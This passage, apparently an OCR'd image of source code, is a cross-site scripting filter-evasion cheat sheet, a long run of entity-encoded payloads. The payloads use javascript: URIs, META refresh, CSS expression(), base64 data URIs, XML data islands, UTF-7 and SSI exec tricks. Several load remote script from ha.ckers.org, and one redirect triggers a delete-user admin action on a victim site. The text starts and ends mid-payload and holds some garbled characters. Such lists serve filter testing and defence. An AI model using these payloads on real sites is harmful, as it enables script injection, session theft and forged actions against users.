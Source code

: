 SRC='vbscript&amp;#058;msgbox(\"XSS\")'&amp;gt; &amp;lt;IMG SRC=\"mocha&amp;#58;&amp;#91;code&amp;#93;\"&amp;gt; &amp;lt;IMG SRC=\"livescript&amp;#058;&amp;#91;code&amp;#93;\"&amp;gt; žscriptualert(EXSSE)ž/scriptu &amp;lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=data&amp;#58;text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K\"&amp;gt; &amp;lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0; URL=http&amp;#58;//;URL=javascript&amp;#058;alert('XSS');\" &amp;lt;IFRAME SRC=\"javascript&amp;#058;alert('XSS');\"&amp;gt;&amp;lt;/IFRAME&amp;gt; &amp;lt;FRAMESET&amp;gt;&amp;lt;FRAME SRC=\"javascript&amp;#058;alert('XSS');\"&amp;gt;&amp;lt;/FRAMESET&amp;gt; &amp;lt;TABLE BACKGROUND=\"javascript&amp;#058;alert('XSS')\"&amp;gt; &amp;lt;TABLE&amp;gt;&amp;lt;TD BACKGROUND=\"javascript&amp;#058;alert('XSS')\"&amp;gt; &amp;lt;DIV STYLE=\"background-image&amp;#58; url(javascript&amp;#058;alert('XSS'))\"&amp;gt; &amp;lt;DIV STYLE=\"background-image&amp;#58;\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028&amp;#46;1027\0058&amp;#46;1053\0053\0027\0029'\0029\"&amp;gt; &amp;lt;DIV STYLE=\"background-image&amp;#58; url(javascript&amp;#058;alert('XSS'))\"&amp;gt; &amp;lt;DIV STYLE=\"width&amp;#58; expression(alert('XSS'));\"&amp;gt; &amp;lt;STYLE&amp;gt;@im\port'\ja\vasc\ript&amp;#58;alert(\"XSS\")';&amp;lt;/STYLE&amp;gt; &amp;lt;IMG STYLE=\"xss&amp;#58;expr/*XSS*/ession(alert('XSS'))\"&amp;gt; &amp;lt;XSS STYLE=\"xss&amp;#58;expression(alert('XSS'))\"&amp;gt; exp/*&amp;lt;A STYLE='no\xss&amp;#58;noxss(\"*//*\"); xss&amp;#58;ex&amp;#x2F;*XSS*//*/*/pression(alert(\"XSS\"))'&amp;gt; &amp;lt;STYLE TYPE=\"text/javascript\"&amp;gt;alert('XSS');&amp;lt;/STYLE&amp;gt; &amp;lt;STYLE&amp;gt;&amp;#46;XSS{background-image&amp;#58;url(\"javascript&amp;#058;alert('XSS')\");}&amp;lt;/STYLE&amp;gt;&amp;lt;A CLASS=XSS&amp;gt;&amp;lt;/A&amp;gt; &amp;lt;STYLE type=\"text/css\"&amp;gt;BODY{background&amp;#58;url(\"javascript&amp;#058;alert('XSS')\")}&amp;lt;/STYLE&amp;gt; &amp;lt;!--&amp;#91;if gte IE 4&amp;#93;&amp;gt; &amp;lt;SCRIPT&amp;gt;alert('XSS');&amp;lt;/SCRIPT&amp;gt; &amp;lt;!&amp;#91;endif&amp;#93;--&amp;gt; &amp;lt;BASE HREF=\"javascript&amp;#058;alert('XSS');//\"&amp;gt; &amp;lt;OBJECT TYPE=\"text/x-scriptlet\" DATA=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/scriptlet&amp;#46;html\"&amp;gt;&amp;lt;/OBJECT&amp;gt; &amp;lt;OBJECT classid=clsid&amp;#58;ae24fdae-03c6-11d1-8b76-0080c744f389&amp;gt;&amp;lt;param name=url value=javascript&amp;#058;alert('XSS')&amp;gt;&amp;lt;/OBJECT&amp;gt; &amp;lt;EMBED SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;swf\" AllowScriptAccess=\"always\"&amp;gt;&amp;lt;/EMBED&amp;gt; &amp;lt;EMBED SRC=\"data&amp;#58;image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==\" type=\"image/svg+xml\" AllowScriptAccess=\"always\"&amp;gt;&amp;lt;/EMBED&amp;gt; a=\"get\"; b=\"URL(\\"\"; c=\"javascript&amp;#058;\"; d=\"alert('XSS');\\")\"; eval(a+b+c+d); &amp;lt;HTML xmlns&amp;#58;xss&amp;gt;&amp;lt;?import namespace=\"xss\" implementation=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;htc\"&amp;gt;&amp;lt;xss&amp;#58;xss&amp;gt;XSS&amp;lt;/xss&amp;#58;xss&amp;gt;&amp;lt;/HTML&amp;gt; &amp;lt;XML ID=I&amp;gt;&amp;lt;X&amp;gt;&amp;lt;C&amp;gt;&amp;lt;!&amp;#91;CDATA&amp;#91;&amp;lt;IMG SRC=\"javas&amp;#93;&amp;#93;&amp;gt;&amp;lt;!&amp;#91;CDATA&amp;#91;cript&amp;#58;alert('XSS');\"&amp;gt;&amp;#93;&amp;#93;&amp;gt; &amp;lt;/C&amp;gt;&amp;lt;/X&amp;gt;&amp;lt;/xml&amp;gt;&amp;lt;SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML&amp;gt;&amp;lt;/SPAN&amp;gt; &amp;lt;XML ID=\"xss\"&amp;gt;&amp;lt;I&amp;gt;&amp;lt;B&amp;gt;&amp;lt;IMG SRC=\"javas&amp;lt;!-- --&amp;gt;cript&amp;#58;alert('XSS')\"&amp;gt;&amp;lt;/B&amp;gt;&amp;lt;/I&amp;gt;&amp;lt;/XML&amp;gt; &amp;lt;SPAN DATASRC=\"#xss\" DATAFLD=\"B\" DATAFORMATAS=\"HTML\"&amp;gt;&amp;lt;/SPAN&amp;gt; &amp;lt;XML SRC=\"xsstest&amp;#46;xml\" ID=I&amp;gt;&amp;lt;/XML&amp;gt; &amp;lt;SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML&amp;gt;&amp;lt;/SPAN&amp;gt; &amp;lt;HTML&amp;gt;&amp;lt;BODY&amp;gt; &amp;lt;?xml&amp;#58;namespace prefix=\"t\" ns=\"urn&amp;#58;schemas-microsoft-com&amp;#58;time\"&amp;gt; &amp;lt;?import namespace=\"t\" implementation=\"#default#time2\"&amp;gt; &amp;lt;t&amp;#58;set attributeName=\"innerHTML\" to=\"XSS&amp;lt;SCRIPT DEFER&amp;gt;alert(&amp;quot;XSS&amp;quot;)&amp;lt;/SCRIPT&amp;gt;\"&amp;gt; &amp;lt;/BODY&amp;gt;&amp;lt;/HTML&amp;gt; &amp;lt;SCRIPT SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;jpg\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;!--#exec cmd=\"/bin/echo '&amp;lt;SCR'\"--&amp;gt;&amp;lt;!--#exec cmd=\"/bin/echo 'IPT SRC=http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js&amp;gt;&amp;lt;/SCRIPT&amp;gt;'\"--&amp;gt; &amp;lt;? echo('&amp;lt;SCR)'; echo('IPT&amp;gt;alert(\"XSS\")&amp;lt;/SCRIPT&amp;gt;'); ?&amp;gt; &amp;lt;IMG SRC=\"http&amp;#58;//www&amp;#46;thesiteyouareon&amp;#46;com/somecommand&amp;#46;php?somevariables=maliciouscode\"&amp;gt; Redirect 302 /a&amp;#46;jpg http&amp;#58;//victimsite&amp;#46;com/admin&amp;#46;asp&amp;deleteuser &amp;lt;META HTTP-EQUIV=\"Set-Cookie\" Content=\"USERID=&amp;lt;SCRIPT&amp;gt;alert('XSS')&amp;lt;/SCRIPT&amp;gt;\"&amp;gt; &amp;lt;HEAD&amp;gt;&amp;lt;META HTTP-EQUIV=\"CONTENT-TYPE\" CONTENT=\"text/html; charset=UTF-7\"&amp;gt; &amp;lt;/HEAD&amp;gt;+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4- &amp;lt;SCRIPT a=\"&amp;gt;\" SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;js\"&amp;gt;&amp;lt;/SCRIPT&amp;gt; &amp;lt;SCRIPT